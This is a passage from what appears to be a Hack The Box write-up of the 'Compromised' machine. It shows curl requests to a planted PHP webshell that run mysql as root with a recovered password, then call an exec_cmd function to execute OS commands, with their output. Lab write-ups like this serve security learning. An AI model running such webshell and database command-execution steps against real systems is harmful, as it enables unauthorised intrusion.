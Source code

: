 

Inbound only established, 22, and 80 are allowed. Outbound only
established and source port 22 and 80 (coming from SSH and HTTP).
Anything I'd want to send outbound will be blocked. Still, this webshell
is enough to run `mysql` commands through. Alternatively, I could write
a forward shell (using Ippsec's technique like I've shown several times,
including
[Stratosphere](/htb-stratosphere.md#building-a-shell) -
Ippsec will show this in his [Compromised
video](https://www.youtube.com/watch?v=yaV09XCDDqI)), or just root from
here (see [Beyond Root](#beyond-root---root-from-webshell)).

#### exec_cmd

I can run the `mysql` binary through this webshell:



    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT @@version"'
    @@version
    5.7.30-0ubuntu0.18.04.1



The `exec_cmd` function does return output when run this way:



    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT exec_cmd(\"id\");"'
    exec_cmd("id")
    uid=111(mysql) gid=113(mysql) groups=113(mysql)\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0



For some reason it appends a ton of `\0` to the end. Multi-line output
isn't handled very well (as in most of it doesn't come through):



    root@kali# curl -G http://10.10.10.207/shop/admin/../vqmod/xml/7HMS2.php --data-urlencode 'c=mysql -u root -pchangethis -e "SELECT exec_cmd(\"ls /var/lib/mysql\");"'
    exec_cmd("ls /var/lib/mysql")
